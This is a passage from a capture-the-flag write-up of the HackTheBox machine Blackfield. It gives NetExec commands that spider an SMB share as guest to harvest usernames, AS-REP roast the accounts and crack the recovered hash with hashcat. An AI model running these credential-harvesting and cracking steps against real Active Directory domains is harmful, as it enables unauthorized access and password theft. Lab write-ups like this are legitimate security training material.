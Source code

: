 <figure><img src="../../../.gitbook/assets/blackfield_profile_share.png" alt=""><figcaption><p>Figure 3: Spidering the profiles$ share.</p></figcaption></figure>

Let's create a username list based on the information provided from the `profiles$` share:

{% code overflow="wrap" %}
```bash
# writing nxc's output to a file
nxc smb 10.10.10.192 -u 'guest' -p '' --spider profiles\$ --regex . --depth 0 > nxc_users
# manually remove the junk lines
nano nxc_users
# extract the usernames
cat nxc_users | grep '[dir]' | cut -d'/' -f5 | cut -d' ' -f1 | sort | uniq > domain_users
```
{% endcode %}

Putting our username list to work right away and checking for any [ASREPRoastable](../../../tl-dr/tl-dr/active-directory/asreproasting.md) accounts (Figure 4), we get back `support`'s hash, which we pass and crack with [Hashcat](../../../tools/tools/passwords/hashcat.md) (Figure 5).

{% code overflow="wrap" %}
```bash
# asreproasting with netexec
nxc ldap 10.10.10.192 -u domain_users -p '' --asreproast asrep_users --continue-on-success
# cracking the hash with hashcat
hashcat -m18200 asrep_users /usr/share/wordlists/rockyou.txt
# showing the results
hashcat asrep_users --show
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/blackfield_asreproast.png" alt=""><figcaption><p>Figure 4: ASREPRoasting with NetExec.</p></figcaption></figure>
